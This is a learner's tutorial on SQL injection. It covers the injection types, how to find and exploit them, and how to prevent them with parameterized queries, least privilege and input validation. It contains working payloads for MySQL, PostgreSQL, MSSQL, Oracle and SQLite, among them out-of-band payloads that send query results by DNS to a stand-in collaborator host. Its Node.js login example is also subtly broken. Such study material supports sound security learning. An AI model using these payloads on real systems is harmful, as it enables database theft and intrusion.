



# SQL Injection

## What is SQL Injection

To Understand what is SQL Injection is let's discuss first the components of the web application and how the perform.



1. **client side**

client side or browser side is the code that excutes in the user's browser and resposible for what the user sees.
one of the functionalities of client side is to make the requests to the server to get data or validate data to user.
then it resieve the response and handle it.

---

2. **Server side**

The Server side is the logic that control the application.
it handle handle the requests sent by user's client side then validate, make sure that the user authorized to make these request's, then process it.
one of the server fanctionlaities is to control the database and excute queries in order to manipulate data.
that's refers to as CRUD operations \[Create,Read,Update,Delete\]
Then it response with Data ,Confirmation of operation success or Errors.

---

3. **DataBase**

DataBase is where the data used by the application to stored.

**DataBase has types**

> 1. SQL based databases like:
>
> > - Oracle SQL
> > - MS SQL
> > - SQLITE
> > - POSTGRESQL
> > - MYSQL

> 2. NOSQL based databases like:
>
> > - GRAPHQL
> > - MongoDB

We Only interst on SQL based data bases.
SQL stands for Structured Query Language.
and from it's name it uses queries to do the CRUD operations.
**EX:**

```sql
SELECT * FROM Users WHERE username='admin';
```

The pervious Query will READ all columns from a table user's when the username column's value is admin.

---

OK That's good so what is the SQL Injection !?



SQL injection happend when the attacker manipulate the query in order to do malicious SQL query like unathorize access to account , retrieve sensitive data or even get RCE on server.
**EX:**

suppose we have a form that login form:

let's say that these form will send two POST params `username` and `password`
then the back end resieve them then add them to query to validate the user

```js
// NODEJS Ex
app.post("/login", (req, res) => {
	const username = req.body.username;
	const password = req.body.password;
});
const query = `SELECT * FROM users WHERE username='${username}' AND password= '${password}'`;
if (query) {
	res.res.sendStatus(200).redirect(`/user/${query.id}`);
} else {
	res.json({ msg: "username or password wrong" });
}
```

so the server take our paramters and put them on a query so what if we add `admin'--` in our username field ?

```sql
const query = `SELECT * FROM users WHERE username='admin'--' AND password=''
```

look at this we are gain access on admin user but how
what happend here is that the single qoute the string so that no error raised
then the two dashes `--` that is used for comments comment the rest of the query so that we access the admin account without need for passwords

---

## SQL Injection Impact

1. Unauthorized access to senstive data.
   - sql injection can leed to broke the security CIA triad
     1. Confidentiality : view senstive data like usernames and passwords.
     2. Integrity : Alter data in database.
     3. Availabilty : Delete data in database
2. RCE Remote Code Execution on OS

---

## Types Of SQL Injections

### 1- In Band (classic)

- In Band SQL Injection is the attack where the retrieved data is presented directly in the application web page.
- these type is much easier to exploit than other types.
- these type have to SubTypes

1. **Error Based:**
   - it's a tichnique used to force DB to generate error allow us to gain more information about the database like it's type and version ,and the query used so that it helps us make our payload.
   - EX:
     - input: `https://www.example?id='`
     - output: `You have an error in your sql syntax check the manual that corresponds to your mysql server version...`
2. **UNION Based:**

   - it's a technique of attack to use `UNION` SQL operator to compine the result of two queries in one single result set.
   - EX:

     - input: `https://www.example?id=' UNION SELECT username,password FROM users--`
     - output : `admin` | `password123`

### 2- Inferntial (Blind)

- In these type the data not retrevied within the application page.
- It's just as dangrous as In Band SQL Injection
- the attacker in these type extract's the data from server by asking true or false question then observe the server behavior
- thes type has two subtypes:

1. **Boolean Based:**

   - It's a technique that uses boolean conditions to return a different result depending on the query return true or false.
   - in order to do that we first make the query return false and observe the application behavior then make the query success and observe again then we use the one that allow us control this behavior.
   - EX:
     - sql query: `select title from product where id = 1`
     - payload 1 :`https://www.example?id=1 and 1=2`
     - the qeury return false so title disappers
     - payload 1 :`https://www.example?id=1 and 1=1`
     - the query return true so title shows again.
   - EX 2:
     - How can these make us extract info from the DB
     - suppose the DB has table user in these table there's admin:hashpass123
     - to extract these hash password we can use :
     - `https://www.example?id=1 and SUBSTRING((SELECT password from users where username='admin'),1,1)='a'`
     - let's understand these payload
     - `SUBSTRING('string',1,1)` is a sql function used to cut string from position 1 and extract 1 char.
     - we add a `SELECT` statement to select the admin pass as string in `SUBSTRING` function
     - then we compare it with `'a'`
     - so if the the first char in password is `a` the title will show
     - so untill the title show we can loop on all alphanumeric characters then try on the second and so on.
     - it's not a jop for manual exploitaion it require automation.
   - _NOTE:_ in these type the behavoir change may a element or text appear or not and these called `Conditional respones boolean based sql injection` or simply the server response with `500 internal server error` and it called `conditional error boolean based sql injection`

2. **Time Based:**

   - it just like boolean based but the diffrence that we force the DB to wait `N` time (sleep) before response if the condition is true
   - EX: if the first char of the admin hash password = `'a'` sleep 10 sec

3. **visible/verbose SQL error messages**

   - Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker.
   - For example, consider the following error message, which occurs after injecting a single quote into an id parameter:
     `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
   - so what if we force the DB to exfiltrate data throw these error message!
   - It will turn a Blind sqli into a visible one
   - just think what if we inject these payload
     `';CAST((SELECT example_column FROM example_table) AS int)`
   - `CAST()` is a function to change data type
   - the select statement first excuted then it changed from string to intger which is impossible so it raise an error with the output of the query.
     `ERROR: invalid input syntax for type integer: "Example data"`

### 3- Out Of Band

- it's a technique that used if non of the other techniques success and it used an out of band network connection to a system we control.
- Not Common: depends on certain feature allowed by DB.
- we can use many protocols like `DNS` and `HTTP`
- techniqually it's a type that can be used with `Boolean Based` as a sub type but some books put it in a seperate category
- many tools can used in certain attack like `burp collaborator` or `interactsh`
- EX:
  - `';exec master..xp_dirtree '//controleddomain.net/a'--`
  - these payload use `xp_dirtree` procedure in `mssql` to make lookup of these domain.
  - if we resieve the request in our domain the condition is true if not the condition is false

---

## How To Find SQL Injection

ok we after we take a small breif about sql injection and it's types how could we find it.

In fact the methodology to find SQL injection differs from one person to another and it built by exprience and other's methodolgy.

### Black Box

1. Map The Application:
   - find subdomains
   - directory enumeration
   - discover the application with the proxy on to make a site map
   - enter values to input fields in the application
   - understand the functions in the application and it'st logic
   - list all input vectors
2. fuzzing the application
   - submit sql specific characters like `(',",or,and,#,--)` an observe if there is errors or abnormal behavior
   - submit boolean conditions `(OR 1=1,OR 1=2,AND 1=1,AND 1=2)`
   - submit time delay payloads `NOTE: try payloads for every type of DB unless we know the type`
   - submit Out-of-band application security testing `(OAST)` payloads

### white box

- Enable logging the web server and DB to see how it deal with inputs
- Map the application
  - User Interface
  - Regex search on code for functions that interact to the DB
  - find the directories that is not accessable directly throw the main page and we don't find throw directory enumuration
- code review
  - follow the code path for all input vectors
  - we can first code review the input vectories that we suspicious that is vulnerable
- test any potential SQLI

---

## How To Exploit SQLI

know after testing the application and found a vulnerable input How to exploit it ?

### 1- Exploiting Error Based SQLI

- First we need to understand that the idea of exploiting these vulnerabilty is to force application raise error gainig information about these DB used.
- all we need to do is submit sql special characters and but in your mind that different inputs can make diffrent errors.
- EX:
  > '
  > "
  > \--
  > ;
  > \#
  > ')
  > ")
  > \`)
  > '))
  > "))
  > `))
  > /\*
  > and
  > or

### 2- Exploiting UNION Based SQLI

- We previuosly discuss these type in brief way but in order to expoit these type we need to follow some rules
  1. number and order of the columns must be the same for all queries
  2. data type for crossponding columns must be the same
- Exloitation

  1. figure out the number of columns using
     1. `order by N`
        - where `N` is number of columns while `N` <= The true number it will not make error
        - `order by` is used to order the result of query by a specific column order
     2. `UNION SELECT NULL,NULL,..` these technique will get error until we add the number of NULL's same as number of columns in query
  2. figure out the datatype of columns we mainly interest in string
     - `UNION SELECT 'a',NULL,NULL` : if not cause error the first field is string type we do these with all fields to know each.
     - `UNION SELECT NULL,'a',NULL`
     - `UNION SELECT NULL,NULL,'a'`
  3. Using union operator to output data:

     ```sql
      # mysql example
      # Database names
      '-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
      #Tables of a database
      '-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
      # column names
      '-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
     ```

  - - Laps : [SQL injection with filter bypass via XML encoding](./laps/filter-bypass-via-XML-encoding.md)

### 3- Exploiting Boolean Based Blind SQLI

- Submit Boolean condition evaluate false like `and 1=2` and note resposne
- Submit Boolean condition evaluate true like `and 1=1` and note resposne
- Cheet Sheet : [Some SQL logic payloads](./files/sqli-logic.txt)
- then write a program that asks DB true/false questions and extract data
- Scripts used to solve portswigger Laps:
  - [Blind SQL injection with conditional responses lap on portswigger py script](./files/conditional_response_blind_sql.py)
  - [Blind SQL injection with conditional error lap on portswigger py scripts](./files/conditional_error_blind_sqli.py)

### 4- Exploiting visible/verbose SQL error messages

- submit a sql special characters and see the response
- if the error is visible but the output of these query not return in the page
- then we try payloads for these vulnerabilty
- EX:
  > Microsoft `SELECT 'foo' WHERE 1 = (SELECT 'secret')`
  >
  > > Conversion failed when converting the varchar value 'secret' to data type int.
  >
  > PostgreSQL `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`
  >
  > > invalid input syntax for integer: "secret"
  >
  > MySQL `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`
  >
  > > XPATH syntax error: '\secret'
- Lap: [Visible Error Sqli lap on portswigger](./laps/visable-error-sql.md)

### 5- Exploiting Time Based Blind SQLI

- submit payload pauses the application for period of time

  > MySQL (string concat and logical ops)
  >
  > > 1' + sleep(10)
  > > 1' and sleep(10)
  > > 1' && sleep(10)
  > > 1' | sleep(10)
  >
  > PostgreSQL (only support string concat)
  >
  > > 1' || pg_sleep(10)
  >
  > MSQL
  >
  > > 1' WAITFOR DELAY '0:0:10'
  >
  > Oracle
  >
  > > 1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
  > > 1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
  >
  > SQLite
  >
  > > 1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
  > > 1
  >
  > NOTE: In some cases the sleep functions won't be allowed. Then, instead of using those functions you could make the query perform complex operations that will take several seconds.

- then write a program that asks DB true/false questions and extract data

Laps:

- [Blind SQL injection with time delays Portswigger lap](./laps/Time-delay-pw-1.md)
- [Blind SQL injection with time delays and information retrieval Portswigger lap](./laps/time-delays-and-information-retrieval-pw.md)

### 6- Exploiting Out of Band SQLI

- Use DNS lookup and observe the behavior on owned domain

  > Oracle
  >
  > > The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
  > > SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
  > >
  > > The following technique works on fully patched Oracle installations, but requires elevated privileges:
  > > SELECT UTL_INADDR.get_host_address('COLLABORATOR-SUBDOMAIN')
  >
  > Microsoft
  >
  > > exec master..xp_dirtree '//COLLABORATOR-SUBDOMAIN/a'
  >
  > PostgreSQL copy (SELECT '') to program 'nslookup COLLABORATOR-SUBDOMAIN'
  >
  > MySQL The following techniques work on Windows only:
  >
  > > LOAD_FILE('\\\\COLLABORATOR-SUBDOMAIN\\a')
  > > SELECT ... INTO OUTFILE '\\\\COLLABORATOR-SUBDOMAIN\a'

- Use DNS lookup with data exfiltration payloads

  > Oracle
  >
  > > `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
  >
  > Microsoft
  >
  > > declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.COLLABORATOR-SUBDOMAIN/a"')
  >
  > PostgreSQL
  >
  > > create OR replace function f() returns void as `$$`
  > > declare c text;
  > > declare p text;
  > > begin
  > > SELECT into p (SELECT YOUR-QUERY-HERE);
  > > c := 'copy (SELECT '''') to program ''nslookup '||p||'.COLLABORATOR-SUBDOMAIN''';
  > > execute c;
  > > END;
  > >
  > > `$$ language plpgsql security definer;`
  > > SELECT f();
  >
  > MySQL The following technique works on Windows only:
  >
  > > SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\COLLABORATOR-SUBDOMAIN\a'

- Laps :
  - [Blind SQL injection with out-of-band interaction](./laps/OAST_ineraction.md)
  - [Blind SQL injection with out-of-band data exfiltration](./laps/OAST_ineraction.md)

---

## How To Prevent SQLI

1. Use prepared statements (parameterized queries)

   - Executing the query performed on two steps:
     1. application specifies the query structure with placeholders for every user input
     2. then the application specifies the content of each placeholder so that the data is processed indepentally from the query
   - EX:

     ```JS
     app.post("/books", (req, res) => {
     const q = "INSERT INTO books (title,`desc`,cover) VALUES (?)";
     const values = [req.body.title, req.body.desc, req.body.cover];

     db.query(q, [values], (err, data) => {
      if (err) return res.json(err);
      return res.json({ msg: "Book Added" });
     });
     });
     ```

   - NOTE: There is some parmaters can't specify as placeholders so we need to use some partial defencies.

2. whitelist input validation
   - defining the values that is authorized and prevent what else
   - useful for parmaters that can't specify as placeholders as table_name,column_name
3. Escaping All User Inputs
   - should be the last wall of defense not the main
4. Least privilege
   - the application must use the least possible privilege when accessing the database
   - any unnecessary default functionality in database must be removed or disabled

---

## Laps and scripts Links

- [SQL injection with filter bypass via XML encoding](./laps/filter-bypass-via-XML-encoding.md)
- [Blind SQL injection with conditional responses lap on portswigger py script](./files/conditional_response_blind_sql.py)
- [Blind SQL injection with conditional error lap on portswigger py scripts](./files/conditional_error_blind_sqli.py)
- [Visible Error Sqli lap on portswigger](./laps/visable-error-sql.md)
- [Blind SQL injection with time delays Portswigger lap](./laps/Time-delay-pw-1.md)
- [Blind SQL injection with time delays and information retrieval Portswigger lap](./laps/time-delays-and-information-retrieval-pw.md)
- [Blind SQL injection with out-of-band interaction](./laps/OAST_ineraction.md)
- [Blind SQL injection with out-of-band data exfiltration](./laps/OAST_ineraction.md)
